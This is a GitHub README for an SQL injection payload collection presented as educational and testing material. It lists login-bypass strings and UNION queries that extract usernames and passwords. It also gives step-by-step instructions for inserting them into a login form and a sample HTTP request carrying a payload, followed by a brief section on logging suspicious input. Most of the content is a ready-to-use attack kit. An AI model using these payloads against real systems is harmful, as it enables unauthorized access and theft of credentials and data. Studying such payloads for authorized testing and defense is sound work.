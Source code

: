 # SQL Injection Vulnerable Payloads
## Overview
This repository contains a collection of commonly used SQL Injection payloads intended for educational and testing purposes. These payloads demonstrate how attackers may exploit poorly secured login forms or input fields in web applications to gain unauthorized access or retrieve sensitive data from a database.
SQL Injection (SQLi) occurs when unvalidated user input is embedded directly into SQL queries. This can allow attackers to manipulate the query structure, extract data, bypass login mechanisms, or even perform destructive operations like deleting tables.
> *Note:* All payloads and usage examples in this document are to be used *only in controlled environments or with explicit permission* from the system owner.
---
## What Is SQL Injection?
SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database. It can be used to:
- Bypass authentication
- Retrieve hidden or unauthorized data
- Modify or delete database content
- Execute administrative operations
---
## Common SQL Injection Payloads
These payloads can be inserted into vulnerable input fields such as:
- *Login forms* (e.g., username or password fields)
- *Search boxes*
- *URL query parameters*
- *HTTP headers (User-Agent, Referer)*
### Authentication Bypass Payloads
```sql
' OR '1'='1
' OR 1=1--
admin' --
admin' # 
' OR 'a'='a
### Data extraction payloads
' UNION SELECT null, version()--
' UNION SELECT username, password FROM users--
' AND (SELECT SUBSTRING(@@version, 1, 1)) = '5'
How to Use These Payloads
1. Locate a Vulnerable Input Field:
Example: A login form that does not sanitize input.
2. Insert Payload:
In the Username field: admin' --
In the Password field: (leave blank or use dummy data)
3. Observe Behavior:
If authentication is bypassed, or unexpected database errors occur, the application may be vulnerable to SQLi.
4. Use Proxy Tools (Optional):
Tools like Burp Suite, OWASP ZAP, or Postman can help you intercept and modify HTTP requests to test payloads more precisely.
Sample HTTP Request with Payload
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
username=admin'--&password=anything
---
Logging and Detection (Optional for Defenders)
If you're building a detection or logging system, log inputs that contain:
SQL operators: ', ", --, ;, OR, AND, UNION, etc.
Keywords like SELECT, INSERT, DROP, UPDATE, etc.
Example log entry:
[2025-05-24 14:10:00] Suspicious input detected: username=admin'-- from IP 192.168.1.15
---
Disclaimer
This content is provided for educational and ethical hacking purposes only. Use these techniques only in authorized environments such as test labs, CTFs, or penetration testing assignments with proper consent. Misuse of these payloads may be illegal and unethical.
---
License
This repository is open-source under the MIT License.
